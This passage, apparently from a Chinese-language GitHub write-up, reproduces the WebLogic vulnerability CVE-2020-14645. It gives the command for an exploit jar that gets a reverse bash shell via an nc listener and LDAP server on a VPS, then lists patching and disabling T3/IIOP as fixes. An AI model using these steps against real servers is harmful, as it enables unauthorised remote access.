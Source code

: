 vps开启nc监听。

![Dingtalk_20220330152658](.\image\Dingtalk_20220330152658.jpg)

本机利用CVE-2020-14645.jar发送攻击数据包。

本机执行：java -jar CVE-2020-14645.jar ldap监听地址 http://目标主机域名或IP:端口

![Dingtalk_20220330153245](.\image\Dingtalk_20220330153245.jpg)

此时vpsldap监听端口会接收到目标主机请求，同时nc监听端口会接收到目标主机反弹的bashshell。

![Dingtalk_20220330153427](.\image\Dingtalk_20220330153427.jpg)

![Dingtalk_20220330153519](.\image\Dingtalk_20220330153519.jpg)

修复建议：

1、及时安装weblogic修复补丁。

2、禁用T3协议。

3、禁用IIOP协议。
